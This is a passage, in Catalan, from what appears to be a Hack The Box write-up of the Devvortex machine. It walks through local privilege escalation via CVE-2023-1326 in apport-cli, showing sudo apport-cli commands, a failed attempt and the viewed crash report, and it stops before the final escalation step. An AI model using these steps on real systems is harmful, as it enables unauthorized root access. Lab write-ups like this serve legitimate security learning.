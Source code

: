 Com veiem a la primera entrada ens funcionarà aquest CVE: diego-tella/CVE-2023-1326-PoC: A proof of concept for CVE-2023–1326 in apport-cli 2.26.0 (github.com)
Veiem que aquesta vulnerabilitat és una escalada de privilegis (justament el que busquem) i només funciona si ets sudoer (el nostre cas).

Posem la comanda de l’enllaç que hem trobat del CVE al github:

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/d774118f-1283-485e-b9d3-09eb9044bcf4)


Però no ens va:

```
logan@devvortex:~$ sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
*** Error: Invalid problem report
No such file or directory
Press any key to continue...
logan@devvortex:~$`
```

Ara hem de fer el següent:

```
logan@devvortex:~$ sudo /usr/bin/apport-cli --file-bug
*** What kind of problem do you want to report?`
```

Un cop executem la comanda de dalt, posem opcions (jo he clicat 1 i després 2) i quan arribem aquí hem de clicar v:

```
`automatically opened web browser.
What would you like to do? Your options are:
 S: Send report (1.4 KB)
 V: View report
 K: Keep report file for sending later or copying to somewhere else
 I: Cancel and ignore future crashes of this program version
 C: Cancel
Please choose (S/V/K/I/C):`
```

I ens ensenya el report:

```
`== CasperMD5CheckResult =================================
skip
== Date =================================
Wed Apr 3 17:42:52 2024
== DistroRelease =================================
Ubuntu 20.04
== Package =================================
xorg (not installed)
== ProblemType =================================
Bug
== ProcCpuinfoMinimal =================================
processor : 1
vendor_id : AuthenticAMD
cpu family : 23
model : 49
model name : AMD EPYC 7302P 16-Core Processor
stepping : 0
cpu MHz : 2994.375
cache size : 512 KB
physic`
```
